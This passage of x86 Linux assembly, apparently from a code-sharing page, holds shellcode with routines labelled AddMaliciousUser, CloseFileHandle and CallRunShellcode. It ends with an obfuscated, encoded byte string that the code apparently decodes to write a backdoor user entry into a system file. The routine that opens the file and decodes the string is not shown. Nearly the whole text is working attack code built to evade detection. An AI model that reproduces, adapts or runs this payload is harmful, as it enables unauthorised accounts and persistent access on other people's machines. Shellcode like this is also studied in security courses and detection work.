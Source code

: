 ```nasm

    push edi
    pop ebx

    mov al,0x6
    dec eax

    mov dl, 0x69
    rol edx, 2

    mov cx,0x443
    dec ecx

    int 0x80

AddMaliciousUser:

    xchg ebx,eax
    xor eax, eax

    push eax
    pop edx

    push 0x20
    pop edx
    dec edx

    push 0x3
    pop eax
    inc eax

    push esi
    pop ecx

    int 0x80

CloseFileHandle:

    xor eax, eax
    mov al,0x6
    int 0x80

Exit:

    inc eax
    int 0x80

CallRunShellcode:

    call RunShellcode
    EncodedStringBytes: db 0x5e,0x06,0x17,0x16,0x5e,0x13,0x02,0x06,0x02,0x14,0x07,0x75,0x05,0x0c,0x0c,0x07,0x4b,0x59,0x53,0x4f,0x41,0x59,0x17,0x45,0x41,0x11,0x59,0x5a,0x03,0x0c,0x0c,0x01,0x4b,0x4c,0x01,0x1c,0x1f,0x4c,0x01,0x14,0x02,0x0b,0x69,0x75
```
